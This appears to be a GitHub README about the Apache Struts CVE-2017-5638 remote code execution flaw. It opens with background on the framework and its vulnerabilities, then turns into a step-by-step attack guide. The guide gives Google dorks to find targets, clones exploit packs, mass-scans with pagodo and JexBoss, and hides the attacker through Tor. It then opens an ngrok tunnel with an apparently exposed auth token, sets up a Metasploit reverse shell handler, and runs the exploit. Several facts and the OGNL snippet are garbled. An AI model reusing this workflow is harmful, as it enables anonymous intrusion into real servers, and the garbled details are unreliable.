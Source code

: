```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638 CVE 2017-5638
---
```


## What is [Apache Struts](https://www.whitehatsec.com/glossary/content/apache-struts)?

Apache Struts is an open-source web application framework used for creating Java EE web applications. It became a top-level Apache project in 2005. 
Without Apache Struts, a standard Java EE web application receives information to a server through a web form submitted by a client or similar user. The information is then given to a Java Servlet or JavaServer Pages. In the Java Servlet, the information communicated interacts with a database and creates a response in HTML. Similarly, JavaServer Pages can be used to blend Java code and HTML for the same result. 

Since these approaches mix presentation with application logic, they can make maintenance difficult for large projects. Apache struts is used to help amend that.
Apache Struts helps fix the problems created with a standard Java EE web application by separating the model (the application logic that interacts with a database) from the view (HTML pages shown to the client) and from the controller (information that passes between the model and view). Struts provides the controller and promotes the writing of templates for the presentation layer or view. The programmer needs to write the model code and create a central configurate file that binds together model, view, and controller.

## What is Apache Struts 1?
Apache Struts 1 is the first iteration of Struts created in May 200 by Craig McClanahan and donated to the Apache Foundation. Its request-based framework consisted of 3 main components:
 - ***A Request Handler***
 - ***A Response Handler***
 - ***A Tag Library***
 
These worked to simplify the process of handling large projects and supported REST applications in addition to technologies such as SOAP & AJEX. However, due to limitations within Apache Struts 1 it was modified and updated in Struts 2.

## What is Apache Struts 2?
Apache Struts 2 was released in February 2007 and the rebranding of WebWork 2.2. Whilst the same architecture from Struts 1 was the same, the code base was completely different and unlike Struts 1 where requests went directly to the servlet, in Struts 2 requests & responses travel through an interceptor/filter.

## Vulnerabilities within Apache Struts
Struts has had numerous vulnerabilities disclosed, many based on its use of OGNL (Object-Graph Navigation Language). Many of these vulnerabilities have been particularly serious as they allow an attacker to carry out arbitrary remote code execution, potentially allowing complete control of the server. 

The most high-profile Struts exploit happened in September 2017’s Equifax breach, which took advantage of a Struts vulnerability disclosed 6 months earlier. 
Whilst some vulnerabilities were discovered within Struts 1 ( Denial of Service: [CVE-2006-1547](https://www.cvedetails.com/cve/CVE-2006-1547/), Cross Site Scripting: [CVE-2008-2025](https://www.cvedetails.com/cve/CVE-2008-2025/)), most vulnerabilities have been found on Struts 2 with many tied to the usage of OGNL technology.

In 2016 there were 16 unique CVE’s released relating to Apache Struts 2 which like Struts 1 included, Denial of Service & Cross Site Scripting but further included Remote Code Execution and CSRF.

In 2017 there were 15 16 unique CVE’s. It was in 2017 it was discovered that certain versions of the [Apache Struts 2](https://www.whitehatsec.com/blog/apache-struts-cve-2017/) Framework (Struts 2.3.5 – 2.3.31 and 2.5 – 2.5.10) were vulnerable to remote code execution attacks. This allowed attackers to deliver malicious payloads. To prevent these attacks, it was recommended to upgrade to Apache Struts version 2.3.32 or 2.5.10.1.
You’ll gain a comprehensive understanding of the state of application security across the whole software development life cycle by reading through our [latest Stats Report](https://www.whitehatsec.com/resources-category/threat-reports/).

## Apache Struts Vulnerability Testing 
[WhiteHat’s DAST application scanning](https://www.whitehatsec.com/platform/dynamic-application-security-testing/) detects a large number of Struts vulnerabilities using production-safe tests. 

# What is CVE-2017-5638?
Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid Content-Type HTTP header. The Struts vulnerability allows these commands to be executed under the privileges of the Web server. This is full remote command execution and has been actively exploited in the wild from the initial disclosure.

The vulnerable code is in the Jakarta Multipart parser. If the Content-Type value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the Content-Type to an OGNL expression such as:

~~~bash
Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
~~~
![img-sample](https://www.synopsys.com/blogs/software-security/wp-content/uploads/HTTPRequestWithCurl.png)

The curl command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header and receiving a response.

## FIND POTENTIAL TARGETS

~ intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
~ intitle:"Struts Problem Report" intext:"development mode is enabled."
~ filetype:action
~ filetype:do
~ filetype:java
~ filetype:out
~ filetype:bat
~ filetype:seam
~ filetype:sh
~ filetype:bson
~ filetype:el
~ filetype:pm
~ inurl:login.action
~ inurl:login.do
~ inurl:login.java
~ inurl:index.action
~ inurl:index.do
~ inurl:index.java

## TOOLS

~~~bash
git clone https://github.com/s1kr10s/Apache-Struts-v4.git
git clone https://github.com/drigg3r/Struts-Apache-ExploitPack.git
git clone https://github.com/opsdisk/pagodo.git
git clone https://github.com/3ndG4me/torphantom.git
~~~
***or
~~~bash
git clone https://github.com/andrefernandes86/demo-apachestruts-attacker-web.git
~~~

## Optional
Save your dorks list into a file such as "dorks.txt" and Specify the output path and filename such as "urls.txt"
~~~bash
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt
~~~

## INITIALIZE TOR SESSION WITH TORPHANTOM
###  Type the below commands
~~~bash
$ sudo torphantom start ­-i <interface>
~~~

### Scan using Struts-Scanner
Type the below commands and follow up the screen prompt
~~~bash
$ ./struts­-scanner
~~~
Type the below commands after correcting the input and output file paths
~~~bash
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
~~~

## INITIALIZE TCP TUNNELING WITH NGROK
~~~bash
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ
~~~
*Your Token can be found in your Ngrok account*

Create the Ngrok session on the port 4444 using the below command
~~~bash
$ ./ngrok tcp 4444
~~~

## CREATE MSF HANDLER
~~~bash
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options
~~~

## EXPLOIT THE TARGET
~~~bash
$ sudo python jexboss.py -u http://example.com/login.action
~~~
<details>
<summary>Complete Guide</summary>
<a href="https://www.netsparker.com/blog/web-security/finding-exploiting-apache-struts-vulnerabilities"/>netsparker</a>

<a href="https://github.com/search?q=apachestruts&type=all"/>Related Articles</a>
